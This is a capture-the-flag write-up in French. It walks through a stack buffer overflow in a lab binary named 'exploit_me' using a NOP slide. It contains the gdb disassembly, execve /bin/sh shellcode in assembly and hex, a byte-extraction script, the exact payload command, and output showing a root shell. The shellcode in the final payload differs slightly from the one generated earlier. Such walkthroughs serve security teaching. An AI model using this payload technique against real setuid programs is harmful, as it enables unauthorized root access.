 # Buffer Overflow Nopslide exploit

A partir de **zaz**, on reprend le binaire **exploit_me** que l'on avait exploiter dans le [writeup1](https://github.com/maginist/Boot2Root/blob/master/writeup1.md) :

```
gdb -q ./exploit_me
(gdb)> disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
```
<pre><code>0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)</code></pre>
>Le compare nous indique que le programme attend 1 seul argument.
```
0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
```
> **strcpy** copie et stocke notre premier argument dans la stack sans vérifier si la taille de l'argument correspond à celle du buffer de destination.

La fonction est donc exploitable par <code>buffer_overflow</code> pour corrompre les valeurs sauvegardées de **%ebp** et **%eip**.

On va effectuer une **nopslide attack**, qui consiste a placer un **SHELLCODE**, executant un **"shell"** ou une autre fonction, au milieu d'une **slide de nop** (**"\x90"**).
> L'instruction **nop** n'a comme seul but de passer a l'instruction suivante.

On connait l'adresse du buffer qui est :

<code>0xbffff640</code>

On connait l'**offset**, auquel on ecrase **%eip**, qui est de 140 et possede une taille de 4.

On utilse le **SHELLCODE** 23 bytes, génerer de la maniere suivante :

### <span>script.sh</span>
```bash
#!/bin/sh
nasm -f elf binsh.s
objdump -d binsh.o
echo ''
objdump -d binsh.o | cut -d '	' -f2 | tr '\n' ' ' | sed $'s/^.*_main>:/shellcode::::::\\\n/' | tr -s ' ' | sed 's/ /\\x/g' | sed 's/......$//'
echo '\n'
LENGTH=`objdump -d binsh.o | tail -1 | cut -f1 | sed 's/.$//' | sed 's/ *//'`
LENGTHDEC=$(echo "obase=10; ibase=16; $LENGTH" | bc)
printf "lenght = 0x%d // %d \n" $LENGTH $LENGTHDEC
rm binsh.o
```
### <span>binsh.s</span>

```as
section .text
global _main

_main:
xor eax, eax	; eax = 0
push eax		; push null termination
push 0x68732f2f	; hs//
push 0x6e69622f	; nib/
mov ebx, esp	; path
mov ecx, eax	; argv
mov edx, eax	; env
mov al, 0xb		; sysall code for execve
int 0x80
nop
```

<pre><code>> sh script.sh

binsh.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_main>:
   0:   31 c0                   xor    %eax,%eax
   2:   50                      push   %eax
   3:   68 2f 2f 73 68          push   $0x68732f2f
   8:   68 2f 62 69 6e          push   $0x6e69622f
   d:   89 e3                   mov    %esp,%ebx
   f:   89 c1                   mov    %eax,%ecx
  11:   89 c2                   mov    %eax,%edx
  13:   b0 0b                   mov    $0xb,%al
  15:   cd 80                   int    $0x80
  17:   90                      nop

shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80

lenght = 0x17 // 23
</code></pre>

On prepare un **PAYLOAD** de 144 charactères, composé de la maniere suivante :
<pre><code>NOPSLIDE * 60 + SHELLCODE + NOPSLIDE * 57 + Address dans la 1ère NOPSLIDE/code></code></pre>

<pre><code>./exploit_me `python -c "print '\x90'*60 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x90'*57 + '\x50\xf6\xff\xbf'"`</code></pre>

Nous obtenons un terminal avec les droits **root** :
```
> id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```